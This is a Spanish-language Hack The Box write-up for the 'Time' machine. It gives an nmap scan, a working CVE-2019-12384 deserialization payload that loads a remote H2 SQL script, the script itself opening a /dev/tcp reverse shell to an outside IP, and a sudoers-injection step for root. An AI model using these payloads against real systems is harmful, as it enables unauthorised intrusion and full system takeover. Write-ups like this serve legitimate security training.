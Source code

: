 ```yaml
---
title: "Time WriteUp"
header:
  overlay_image: /assets/images/unsplash-image-1.jpg
  caption: "Photo credit: [**Unsplash**](https://unsplash.com)"
  actions:
    - label: "Learn more"
      url: "https://unsplash.com"
categories:
  - HTB
  - Uncategorized
tags:
  - edge case
  - image
  - layout
last_modified_at: 2021-03-13T16:00:52-04:00
---
```


# **Time Write up HTB**  

>- `Pasos`
>
>>**1->** Escaneo de la ip con nmap  
>>**2->** Vulnerar la web  
>>**3->** Ejecucuion del CVE-2019-12384  
>>**4->** Escalar privilegios    

***

##  Escaneo de la ip con nmap

>- nmap nmap -sSV --min-rate 3000 --open -n -Pn 10.10.10.214    
>
>Starting Nmap 7.91 ( https://nmap.org ) at 2021-03-09 13:48 CET  
>Nmap scan report for 10.10.10.214  
>Host is up (0.22s latency)  
>Not shown: 985 closed ports, 13 filtered ports  
>Some closed ports may be reported as filtered due to --defeat-rst-ratelimit  
>PORT   STATE SERVICE VERSION  
>22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0)  
>80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))  
>Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel  

Agreguemos la **IP(`10.10.10.214`)** al /etc/hosts  
Ya puestos en el navegador accederemos a **time.htb**  
                      <img src="https://raw.githubusercontent.com/Sharker3312/Images/what_OS/Time/Time_2.png" widht=800 />    

## Vulnerar la web    

            En la web hay dos opciones:    

>Beautify  
>Validate!beta!)  

Escribimos **Hello world** con la opcion de `Validate(!beta)` seleccionada, y observamos que la web nos genera un   error  

   <img src="https://raw.githubusercontent.com/Sharker3312/Images/what_OS/Time/Time_3.png" widht=800 />  
						
Eventualmente leyendo y buscando este error en google damos con la vulnerabilidad **CVE-2019-12384**   
En github hay varias **PoC** para explotar esta mala configuracion en el backend.



##  Ejecucuion del CVE-2019-12384  

Primero nos crearemos el archivo `inject.sql` para posteriormente levantar un servidor con python  

```sql
CREATE ALIAS SHELLEXEC AS $$ String shellexec(String cmd) throws java.io.IOException {
        String[] command = {"bash", "-c", cmd};
        java.util.Scanner s = new java.util.Scanner(Runtime.getRuntime().exec(command).getInputStream()).useDelimiter("\\A");
        return s.hasNext() ? s.next() : "";  }
$$;
CALL SHELLEXEC('setsid bash -i &>/dev/tcp/10.10.16.149/4444 0>&1 &')
```

> python3 -m http.server  

En una terminal pondremos un netcat a la escucha.  

En la web utilizaremos este **payload**:

```java
["ch.qos.logback.core.db.DriverManagerConnectionSource",{"url":"jdbc:h2:mem:;TRACE_LEVEL_SYSTEM_OUT=3;INIT=RUNSCRIPT FROM 'http://your_ip:8000/inject.sql'"}]
```

<img src="https://raw.githubusercontent.com/Sharker3312/Images/what_OS/Time/Time_4.png" widht=800 />  

Como experiencia personal muchos payloads de github no me sirvieron.No se rompan la cabeza y utilicen el de arriba.      

Vemos en el servidor de python que  hubo una peticion **GET**  
<img src="https://raw.githubusercontent.com/Sharker3312/Images/what_OS/Time/Time_5.png" widht=800 />  
Tenemos una shell interactiva por el puerto en escucha del netcat.  
<img src="https://raw.githubusercontent.com/Sharker3312/Images/what_OS/Time/Time_6.png" widht=800 />  
     Flag user.txt    

<img src="https://raw.githubusercontent.com/Sharker3312/Images/what_OS/Time/Time_7.png" widht=800 />  

##  Escalar privilegios  
Enumerando el sistema vemos que hay una tarea que se ejecuta como root pero el usuario `pericles`  tiene permisos de escritura sobre este archivo    

`/usr/bin/timer_backup.sh`

>echo 'echo "pericles ALL=(ALL) NOPASSWD:ALL" >> /etc/sudoers' >/usr/bin/timer_backup.sh  

 Esto nos permite agregar al usuario **_pericles_** al /etc/sudoers para que ejecute tareas de `root` sin proporcionar la contrasena.  
 Luego hacemos un `sudo su `   

<img src="https://raw.githubusercontent.com/Sharker3312/Images/what_OS/Time/Time_8.png" widht=800 />

`Flag root.txt:` `cat /root/root.txt`

- [x] ***H@ppY H@(K1NG!***
